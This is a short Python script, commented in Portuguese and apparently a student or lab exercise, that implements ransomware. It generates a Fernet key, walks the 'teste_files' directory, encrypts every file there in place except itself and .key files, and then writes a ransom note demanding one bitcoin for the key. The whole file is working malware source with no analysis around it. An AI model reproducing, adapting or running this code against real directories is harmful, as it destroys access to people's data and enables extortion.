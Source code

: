 from cryptography.fernet import Fernet
import os


#1. Gerar uma chave de criptografia e salvar
def gerar_chave():
    chave = Fernet.generate_key() 
    with open("chave.key", "wb") as chave_file:
         chave_file.write(chave)
        
#2. carregar a chave salva
def carregar_chave():
    return open("chave.key", "rb").read()


#3. Criptografar um único arquivo
def criptografar_arquivo(arquivo, chave):
    f = Fernet(chave)
    with open(arquivo, "rb") as file:
        dados = file.read()
    dados_encriptados  = f.encrypt(dados)
    with open(arquivo, "wb") as file: 
        file.write(dados_encriptados)


#4. Encontrar arquivos para criptografar (corrigido ':')
def encontrar_arquivos(diretorio):
    lista = []
    for raiz, _, arquivos in os.walk(diretorio):
        for nome in arquivos:
            caminho = os.path.join(raiz, nome)
            if nome != "ransoware.py" and not nome.endswith(".key"):
                lista.append(caminho)
    return lista

#5. Mensagem de resgate
def criar_mensagem_resgate():
    with open("LEIA ISSO.TXT", "w") as f:
        f.write("Seus arquivos foram criptografados!\n")
        f.write("Envie 1 bitcoin para o endereço X e envie o comprovante!\n")
        f.write("Depois disso, enviaremos a chave para você recuperar seus dados\n")


#6. Execução principal
def main():
    gerar_chave()
    chave = carregar_chave()
    arquivos = encontrar_arquivos("teste_files")
    for arquivo in arquivos:
        criptografar_arquivo(arquivo, chave)
    criar_mensagem_resgate()
    print("Ransomware executado! Arquivos criptografados!")


if __name__=="__main__":
    main()
